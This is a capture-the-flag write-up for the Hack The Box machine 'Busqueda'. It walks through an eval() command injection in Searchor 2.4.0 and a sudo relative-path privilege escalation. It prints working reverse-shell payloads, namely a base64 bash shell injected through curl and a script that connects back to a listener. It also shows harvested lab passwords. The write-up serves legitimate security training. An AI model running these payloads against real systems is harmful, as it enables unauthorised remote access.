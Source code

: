 # HTB - Busqueda

#### Ip: 10.10.11.208
#### Name: Busqueda
#### Rating: Easy

----------------------------------------------------------------------

![Busqueda.png](../assets/busqueda_assets/Busqueda.png)


### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I'll also use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/HTB/Busqueda]
└─$ sudo nmap -p- --min-rate 10000 10.10.11.208 -sC -sV 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-01 10:06 CST
Nmap scan report for 10.10.11.208
Host is up (0.074s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.54 seconds
```

We can see the site is attempting to redirect to http://searcher.htb/ so lets add that to our `/etc/hosts` file.


Navigating to the site on port 80 we find a page with search functionality:

![busqueda_site.png](../assets/busqueda_assets/busqueda_site.png)

At the bottom of the page we see it is running Flask as well as Searchor 2.4.0:

![busqueda_version.png](../assets/busqueda_assets/busqueda_version.png)

Looking for exploits for searcher 2.4.0 we find this GitHub feauturing a bash arbitrary code injection exploit:

https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

Per the GitHub ReadMe we see it is specifically exploiting the function call `eval()` in which it is able to execute system commands:

```python
@click.argument("query")
def search(engine, query, open, copy):
    try:
        url = eval( # <<< See here 
            f"Engine.{engine}.search('{query}', copy_url={copy}, open_web={open})"
        )
        click.echo(url)
        searchor.history.update(engine, query, url)
        if open:
            click.echo("opening browser...")
	  ...
```

The script injects:
```bash
rev_shell_b64=$(echo -ne "bash  -c 'bash -i >& /dev/tcp/$2/${port} 0>&1'" | base64)
evil_cmd="',__import__('os').system('echo ${rev_shell_b64}|base64 -d|bash -i'))
```

Into the function via a POST request using CURL:
```bash
curl -s -X POST $1/search -d "engine=Google&query=${evil_cmd}" 1> /dev/null
```

### Exploitation

We can exploit this vulnerability with the exploit script with no changes needed to the code:

![busqueda_shell.png](../assets/busqueda_assets/busqueda_shell.png)

getting a shell back as user svc.

We are now able to grab the user.txt flag:

![busqueda_user.png](../assets/busqueda_assets/busqueda_user.png)

### Privilege Escalation

Looking more closely at the svc home folder we find a .gitconfig file:

```
svc@busqueda:~$ cat .gitconfig
cat .gitconfig
[user]
	email = cody@searcher.htb
	name = cody
[core]
	hooksPath = no-hooks
```

Lets hang onto this info and keep enumerating.

After loading up and running linpeas.sh to help enumerate a privilege escalation vector, we notice there is a gitea vhost running that was missed during enumeration. Lets add that to `/etc/hosts` and check it out:

![busqueda_vhost.png](../assets/busqueda_assets/busqueda_vhost.png)

```
10.10.11.208    searcher.htb gitea.searcher.htb
```

Heading to the gitea site we find a sign-in button:

![busqueda_gitea.png](../assets/busqueda_assets/busqueda_gitea.png)

This seems like progress, but we still don't have a password for cody.

Going back to my shell for further enumeration I find a .git directory in `/var/www/app` that has a config file containing cody's password:

![busqueda_password.png](../assets/busqueda_assets/busqueda_password.png)

cody:jh1usoih2bkjaspwe92

Armed with this password lets see if we can use it to run `sudo -l` to check if we can run anything with elevated permissions:

```text
svc@busqueda:/var/www/app/.git$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

We are unable to read this script:
```text
svc@busqueda:/var/www/app/.git$ cat /opt/scripts/system-checkup.py
cat: /opt/scripts/system-checkup.py: Permission denied
```

But trying to run it to read a file normally prohibted to lower level users gets us this error:
```text
svc@busqueda: sudo /usr/bin/python3 /opt/scripts/system-checkup.py /etc/shadow

Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

We can view the docker containers:
```text
svc@busqueda: sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps  
CONTAINER ID   IMAGE                COMMAND                  CREATED         STATUS             PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   13 months ago   Up About an hour   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   13 months ago   Up About an hour   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db
```

Lets inspect the gitea container. To do that we'll also need to declare the format:
```
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
```
I had to reference the docker docs (ha) for this. I am super bad with Docker and it is definitely something I need to learn more about:

![busqueda_docker_docs.png](../assets/busqueda_assets/busqueda_docker_docs.png)

```text
svc@busqueda: sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' gitea

--format={"Hostname":"960873171e2e","Domainname":"","User":"","AttachStdin":false,"AttachStdout":false,"AttachStderr":false,"ExposedPorts":{"22/tcp":{},"3000/tcp":{}},"Tty":false,"OpenStdin":false,"StdinOnce":false,"Env":["USER_UID=115","USER_GID=121","GITEA__database__DB_TYPE=mysql","GITEA__database__HOST=db:3306","GITEA__database__NAME=gitea","GITEA__database__USER=gitea","GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh","PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","USER=git","GITEA_CUSTOM=/data/gitea"],"Cmd":["/bin/s6-svscan","/etc/s6"],"Image":"gitea/gitea:latest","Volumes":{"/data":{},"/etc/localtime":{},"/etc/timezone":{}},"WorkingDir":"","Entrypoint":["/usr/bin/entrypoint"],"OnBuild":null,"Labels":{"com.docker.compose.config-hash":"e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515","com.docker.compose.container-number":"1","com.docker.compose.oneoff":"False","com.docker.compose.project":"docker","com.docker.compose.project.config_files":"docker-compose.yml","com.docker.compose.project.working_dir":"/root/scripts/docker","com.docker.compose.service":"server","com.docker.compose.version":"1.29.2","maintainer":"maintainers@gitea.io","org.opencontainers.image.created":"2022-11-24T13:22:00Z","org.opencontainers.image.revision":"9bccc60cf51f3b4070f5506b042a3d9a1442c73d","org.opencontainers.image.source":"https://github.com/go-gitea/gitea.git","org.opencontainers.image.url":"https://github.com/go-gitea/gitea"}}
```

Nice! Looks like we've discovered another credential: yuiu1hoiu4i5ho1uh

We can use this to successfully log into the gitea site as the administrator:

![busqueda_login.png](../assets/busqueda_assets/busqueda_login.png)

Taking a look at the sytem-checkup.py file we see it also is executing the full-checkup.sh file in `/opt/scripts`

```python
    elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
```
Because this doesn't contain the full path for full-checkup.sh, we may be able to create our own malicious file calle full-checkup.sh, and execute it using our sudo permissions.

Lets create a file called full-checkup.sh containing a bash reverse shell:
```bash
#! /bin/bash
bash -i >& /dev/tcp/10.10.14.60/4444 0>&1
```

We can make it executable with:
```bash
chmod +x full-checkup.sh
```

And finally we can set up a nc listener, and execute it using our sudo permissions:

```text
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

This catches us a shell back as root and we can grab the final flag:

![busqueda_root.png](../assets/busqueda_assets/busqueda_root.png)

Thanks for folllowing along!

-Ryan





